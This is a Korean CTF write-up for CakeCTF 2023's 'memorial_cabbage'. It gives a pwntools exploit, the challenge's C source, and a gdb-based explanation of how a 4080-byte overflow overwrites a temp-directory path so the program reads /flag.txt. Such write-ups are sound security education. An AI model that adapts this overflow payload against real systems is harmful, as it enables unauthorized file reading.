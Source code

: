 ```yaml
---
title: "[2023CakeCTF] memorial_cabbage"
tags:
- "CTF writeup"
---
```


# Exploit code
```python
from pwn import *
context.log_level = 'debug'

p = remote('ip address', 9001)

p.sendlineafter('> ', b'1')

p.sendlineafter('Memo: ',b'A'*4080 + b'/flag.txt'+ b'\x00')

p.sendlineafter('> ', b'2')
p.interactive()
```

# WriteUp
주어진 바이너리의 소스코드는 다음과 같다.

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define TEMPDIR_TEMPLATE "/tmp/cabbage.XXXXXX"

static char *tempdir;

void setup() {
  char template[] = TEMPDIR_TEMPLATE;

  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);

  if (!(tempdir = mkdtemp(template))) {
    perror("mkdtemp");
    exit(1);
  }
  if (chdir(tempdir) != 0) {
    perror("chdir");
    exit(1);
  }
}

void memo_r() {
  FILE *fp;
  char path[0x20];
  char buf[0x1000];

  strcpy(path, tempdir);
  strcpy(path + strlen(TEMPDIR_TEMPLATE), "/memo.txt");
  if (!(fp = fopen(path, "r")))
    return;
  fgets(buf, sizeof(buf) - 1, fp);
  fclose(fp);

  printf("Memo: %s", buf);
}

void memo_w() {
  FILE *fp;
  char path[0x20];
  char buf[0x1000];

  printf("Memo: ");
  if (!fgets(buf, sizeof(buf)-1, stdin))
    exit(1);

  strcpy(path, tempdir);
  strcpy(path + strlen(TEMPDIR_TEMPLATE), "/memo.txt");
  if (!(fp = fopen(path, "w")))
    return;
  fwrite(buf, 1, strlen(buf), fp);
  fclose(fp);
}

int main() {
  int choice;

  setup();
  while (1) {
    printf("1. Write memo\n"
           "2. Read memo\n"
           "> ");
    if (scanf("%d%*c", &choice) != 1)
      break;
    switch (choice) {
      case 1: memo_w(); break;
      case 2: memo_r(); break;
      default: return 0;
    }
  }
}
       
```

매 실행마다 패턴에 맞는 temp주소 값이 생성되어 tempdir에 위치하게 된다. 그리고 read 및 write함수에서 strcpy를 통해 path에 tempdir값을 복사 후, 그 값을 사용한다.

만약 write함수에서 버퍼 오버플로우가 발생해 tempdir값을 변조하는 것이 가능하다면? 원하는 데이터를 read함수를 통해 불러올 수 있게 될 것이다. 게다가 오버플로우의 끝을 null로 처리해 뒤에 붙는 /memo.txt가 오지 않도록 할 수도 있다.

때문에 중요한 것은 memo_w에서 buf와 tempdir의 offset을 구하는 것이다.

## offset
소스코드를 잘 보면 memo에서 tempdir을 불러온다.

![]({{ 'assets/ctf/cabbage/1.png' | relative_url }})

이때의 값을 잘 볼수 있다면 tempdir의 위치를 알아낼 수 있을 것이다. b *memo_w+118 을 통해 rsi에 저장된 값이 무엇인지 살펴본다.

![]({{ 'assets/ctf/cabbage/2.png' | relative_url }})

다음으로 buf에 저장된 값을 확인할 수 있다.

![]({{ 'assets/ctf/cabbage/3.png' | relative_url }})

python을 활용해 이들 사이의 offset을 구해본다.

![]({{ 'assets/ctf/cabbage/4.png' | relative_url }})

즉 10진수 4080만큼의 차이가 난다. 그러면 다음과 같은 페이로드를 구상해볼 수 있다.

```python
payload = b'A'*4080 + b'/flag.txt' + b'\x00'
```

이를 write의 buf에 보낸다면 tempdir에 /flag.txt가 덮어씌워지고, 이 상태로 read를 한다면 /flag.txt를 읽어오게 될 것이다.

![]({{ 'assets/ctf/cabbage/5.png' | relative_url }})